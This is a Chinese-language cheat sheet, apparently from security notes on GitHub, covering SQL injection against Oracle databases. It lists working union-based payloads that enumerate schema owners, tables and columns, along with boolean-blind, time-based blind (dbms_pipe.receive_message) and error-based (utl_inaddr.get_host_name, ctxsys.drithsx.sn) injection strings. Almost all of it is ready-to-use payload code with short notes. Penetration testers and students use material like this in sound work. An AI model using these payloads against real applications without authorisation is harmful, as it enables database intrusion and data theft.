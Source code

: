 (4) 注入爆库名
```sql
union select null,(select owner from all_tables where rownum=1),null from dual --
```
这里用 rownum 来指定返回结果，如果要匹配字符的数据库需要使用 `<>` (rownum = 1 and owner <> 'MASTER')

(5) 注入爆表名

```sql
union select null,(select table_name from user_tables where rownum = 1),null from dual --
```
(6) 注入爆列
```sql
union select null,(select column_name from user_tab_columns where table_name='SQLI' and rownum=1),null from dual --
```
(7) 常规 Union select 取数据


### Boolen

**布尔盲注：**

```sql
-- subtstr
and (select substr(user, 1, 1) from dual)='O' -- +
-- decode(条件,值1,返回值1,值2,返回值2,...值n,返回值n,缺省值)
and 1=(select decode(substr(user, 1, 1),'T',(1/1),0) from dual) -- +
and 1=(select decode(substr(user, 1, 1),'T',(1/0),0) from dual) -- 成功则报错
-- instr(源,目标,起始位置,第几个匹配的序号)
and 1=(instr((select user from dual),'TEST')) --
```

**时间盲注：**

```sql
-- decode 匹配成功延时，失败则不延时
select decode(substr(user,1,1),'T',dbms_pipe.receive_message('any', 5),0) from dual;
-- 利用获取大量数据的语句
select count(*) from all_objects
```

### Error Based

- utl_inaddr.get_host_name

在 11g 之前不需要任何权限，在 11g 之后当前的数据库用户必须有网络访问权限。

```sql
select utl_inaddr.get_host_name((select user from dual)) from dual;
```
- ctxsys.drithsx.sn

处理文本的函数，传入参数错误的时会报错返回异常.

```sql
select ctxsys.drithsx.sn(1, (select user from dual)) from dual;
```
